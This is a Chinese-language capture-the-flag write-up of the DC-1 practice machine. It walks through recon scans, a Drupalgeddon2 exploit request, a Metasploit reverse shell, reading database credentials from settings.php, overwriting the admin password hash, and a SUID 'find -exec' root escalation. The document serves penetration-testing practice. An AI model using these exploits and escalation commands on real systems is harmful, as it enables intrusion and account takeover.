 ```yaml
---
title: DC1
date: 2023-09-03T15:29:52+08:00
updated: 2023-08-01T15:06:40+08:00
categories: 
- 渗透测试
- 靶机练习
---
```


```
arp-scan -l 
```

寻找到目标ip地址,得到同一网段中的DC1靶机IP

```
192.168.121.144
```

![ip](E:\笔记软件\笔记\渗透测试\靶机练习\DC1图库\ip.png)

直接访问无法连接，nmap扫描目标开放端口

```
nmap -A 192.168.121.144 -F  //仅扫描100个常用端口
```

![nmap](E:\笔记软件\笔记\渗透测试\靶机练习\DC1图库\nmap.png)

可以看到看到开放80端口等信息，且8080为apache服务，尝试访问各个端口，仅80端口能够正常访问，访问该页面仅能看到一个登录框，以及跳转按钮，先收集目录信息，这里采用gobuster进行扫描

```
┌──(root㉿kali)-[~/Desktop]
└─# gobuster dir -u http://192.168.121.144 -w /usr/share/wordlists/dirb/big.txt 
```

扫描得到以下路径

```
/0                    (Status: 200) [Size: 7648]
/LICENSE              (Status: 200) [Size: 18092]
/README               (Status: 200) [Size: 5376]
/includes             (Status: 301) [Size: 321] [--> http://192.168.121.144/includes/]
/misc                 (Status: 301) [Size: 317] [--> http://192.168.121.144/misc/]
/modules              (Status: 301) [Size: 320] [--> http://192.168.121.144/modules/]
/node                 (Status: 200) [Size: 7648]
/profiles             (Status: 301) [Size: 321] [--> http://192.168.121.144/profiles/]
/robots.txt
```

在各个目录中获取信息，发现该站点是由Drupal开发,并且robots.txt中给出了防止爬取的站点，大致猜测是要去获取这些页面

由于知道了该站点是由Drupal开发，在网上搜索一些历史漏洞尝试利用

```
CVE-2019-6340
漏洞地址位于/node/?_format=hal_json
但该站点无法访问该页面，或许存在重定向
```

```
CVE-2018-7600
漏洞利用数据包如下
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 103

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id
```

都无法利用成功，上msf,

```
msf6 > search drupal

Matching Modules
================

   #  Name                                           Disclosure Date  Rank       Check  Description
   -  ----                                           ---------------  ----       -----  -----------
   0  exploit/unix/webapp/drupal_coder_exec          2016-07-13       excellent  Yes    Drupal CODER Module Remote Command Execution
   1  exploit/unix/webapp/drupal_drupalgeddon2       2018-03-28       excellent  Yes    Drupal Drupalgeddon 2 Forms API Property Injection
   2  exploit/multi/http/drupal_drupageddon          2014-10-15       excellent  No     Drupal HTTP Parameter Key/Value SQL Injection
   3  auxiliary/gather/drupal_openid_xxe             2012-10-17       normal     Yes    Drupal OpenID External Entity Injection
   4  exploit/unix/webapp/drupal_restws_exec         2016-07-13       excellent  Yes    Drupal RESTWS Module Remote PHP Code Execution
   5  exploit/unix/webapp/drupal_restws_unserialize  2019-02-20       normal     Yes    Drupal RESTful Web Services unserialize() RCE
   6  auxiliary/scanner/http/drupal_views_user_enum  2010-07-02       normal     Yes    Drupal Views Module Users Enumeration
   7  exploit/unix/webapp/php_xmlrpc_eval            2005-06-29       excellent  Yes    PHP XML-RPC Arbitrary Code Execution

```

随便尝试一个漏洞

```
use 2
set RHOSTS 192.168.121.144
set LHOST 192.168.121.135
set LPORT 4444
run
```

成功拿到反向shell

![reverse_shell](E:\笔记软件\笔记\渗透测试\靶机练习\DC1图库\reverse_shell.png)

拿到第一个flag

```
meterpreter > cat flag1.txt
Every good CMS needs a config file - and so do you.
```

使用python升级为交互式shells

```
meterpreter > shell
Process 3522 created.
Channel 3 created.
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@DC-1:/var/www$ 
```

![python_up](E:\笔记软件\笔记\渗透测试\靶机练习\DC1图库\python_up.png)

第一个fla提示我们查看配置文件，

```xml
<match url="\.(engine|inc|info|install|make|module|profile|test|po|sh|.*sql|theme|tpl(\.php)?|xtmpl)$|^(\..*|Entries.*|Repository|Root|Tag|Template)$" />
```

配置文件中给出了黑名单，顺带查看了/etc/passwd文件，能够看到其中的flag4的影子,但是这个文件好像没有什么用，查看一下对应cms的配置文件，对应文件位于

```
/var/www/sites/default/settings.php
```

在文件中看到flag2

![flag2](E:\笔记软件\笔记\渗透测试\靶机练习\DC1图库\flag2.png)

以及数据库的信息

```
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupaldb',
      'username' => 'dbuser',
      'password' => 'R0ck3t',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
```

flag2提示我们能用这些证书干什么，尝试登录mysql

```
mysql -u dbuser -p
R0ck3t
```

成功登录mysql,查看一下有哪些表，发现存在users表，直接select

```
select * from users;
```

![users](E:\笔记软件\笔记\渗透测试\靶机练习\DC1图库\users.png)

密码通过hash加密，刚才在翻目录的时候似乎看到了.sh文件，可以返回去找一下，找到一的password-hash.sh

cat一下发现是一个php，该文件引用了/includes/password.inc和'/includes/bootstrap.inc',跟过去查看一下，看了半天发现password-hash.sh是可以自己生成hash的，我们可以用该hash值来替换数据库中admin的密码

```
php scripts/password-hash.sh 12345 //在上级目录正确执行
```

得到hash值

```
password: 12345                 hash: $S$Dji8xJ25v5XuetJPsCUcJF9iRoUnW3VJf7.vVycDkCqCUHymZwFf
```

再用该hash值替换admin处的hash

```
mysql> update users set pass='$S$Dji8xJ25v5XuetJPsCUcJF9iRoUnW3VJf7.vVycDkCqCUHymZwFf' where name='admin';
<JF9iRoUnW3VJf7.vVycDkCqCUHymZwFf' where name='admin';                       
Query OK, 1 row affected (0.00 sec)
Rows matched: 1  Changed: 1  Warnings: 0
```

再回到页面即可成功登录admin账户，在后台发现flag3

![flag3](E:\笔记软件\笔记\渗透测试\靶机练习\DC1图库\flag3.png)

提示我们特殊的PERMS,需要提权

https://xz.aliyun.com/t/12535看了一下文章关于suid提权

```
find / -perm -u=s -type f 2>/dev/null
查找可执行的二进制文件
/usr/bin/find . -exec /bin/sh \;
执行-exec拿到root权限
```

![find](E:\笔记软件\笔记\渗透测试\靶机练习\DC1图库\find.png)

能找到较全的提权指令

最后的flag位于/root下

![finalflag](E:\笔记软件\笔记\渗透测试\靶机练习\DC1图库\finalflag.png)

后面再看wp时发现flag4其实就是/ect/passwd中的那个，但是/etc/passwd不需要root权限也能够cat

![flag4](E:\笔记软件\笔记\渗透测试\靶机练习\DC1图库\flag4.png)

### 总结：

整个靶机做下来不会让人找不到方向，在mysql修改admin的密码时，会让人不知所措，第一时间想到的可能会是去破解该hash，还好在拿到反向shell的时候基本把目录都翻了一遍注意到了hash文件，难点大概在于提权位置(还不怎么熟悉)，以及passwd-hash.sh的利用，都参考了部分wp,最开始去看了看.sh文件，想直接拿过来在本地生成hash密码，没有想到能够在服务端上直接执行
